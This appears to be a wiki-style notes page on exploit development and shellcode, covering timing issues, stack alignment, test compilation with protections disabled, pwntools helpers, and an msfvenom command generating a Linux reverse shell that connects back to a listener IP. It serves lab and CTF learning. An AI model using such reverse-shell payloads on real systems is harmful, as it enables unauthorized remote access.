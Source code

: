 # Shellcode

## Common Problems

### Don’t Send Data Too Fast

Take into account that sending data too fast might lead to unexpected results, especially in applications that were designed for slow humans.

For example, I couldn’t get a segfault to occur in [Fusion 2](https://exploit.education/fusion/level02/). After I added 1 second sleeps between all the network traffic I sent, it started working 100% of the time.

### **Stack Alignment**

{% embed url="https://githubmemory.com/repo/Gallopsled/pwntools/issues/1870" %}
Reference to the problem
{% endembed %}

You might be required to align the stack to 8 or 16 bytes when doing ROP chains. If your exploit is working locally but not remotely, then this is one possible cause.

## Testing out shellcode <a href="#docs-internal-guid-93dd9c71-7fff-548c-e6c6-1998f3822515" id="docs-internal-guid-93dd9c71-7fff-548c-e6c6-1998f3822515"></a>

### **Breakpoint trick**

If you’re not sure if your shellcode is being hit (for example in a regular execution environment without a debugger), then you can place a `0xCC` instruction (INT3 breakpoint). When that breakpoint is hit, then you will get a message indicating that (Trace/breakpoint trap).

Though, it won't end up in dmesg. If you want it to end up in dmesg, then you can use something that causes a segfault, like `pwn.asm(pwn.shellcraft.i386.crash())` from pwntools. You can also try `pwn.asm(pwn.shellcraft.i386.infloop())` to create an infinite loop.

### Shellcode repository <a href="#docs-internal-guid-8bb984d0-7fff-0c2e-6b7a-d70e39195326" id="docs-internal-guid-8bb984d0-7fff-0c2e-6b7a-d70e39195326"></a>

{% embed url="http://shell-storm.org/shellcode/" %}

But really, using **msfvenom** to generate your own shellcode is better in pretty much every way.

#### **Test files**

There are usually test files along with shellcode. You might need to supply additional options for gcc, like making the stack executable, etc.

gcc test.c -o test -fno-stack-protector -z execstack -no-pie

## Generating Shellcode <a href="#docs-internal-guid-4e2e7295-7fff-c1d9-0b54-88997d5797ed" id="docs-internal-guid-4e2e7295-7fff-c1d9-0b54-88997d5797ed"></a>

### **Generating shellcode with msfvenom**

You can generate shellcode for a reverse shell using msfvenom.

This is an example of an x86 linux reverse shell, which will connect back to 172.16.184.1 on port 8000. It’s set to python format, so you can paste it into python.&#x20;

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.184.1 LPORT=8000 -a x86 --platform linux -f python
```

You can also assign bytes that the shellcode must not use (like NULL bytes or backslashes). This is useful if you have certain limitations.

### **Generating Assembly Using Pwntools**

{% embed url="https://docs.pwntools.com/en/stable/asm.html" %}
Documentation
{% endembed %}

You can use pwntools to generate the machine code for whatever assembly you want to execute. For example, here is the syntax for doing relative jumps in pwntools on the command line:

```
pwn asm 'jmp $+0x20'
```

And this is how you can do it in Python code:

```
>>> import pwn
>>> pwn.asm('jmp $+0x20')
b'\xeb\x1e'
```

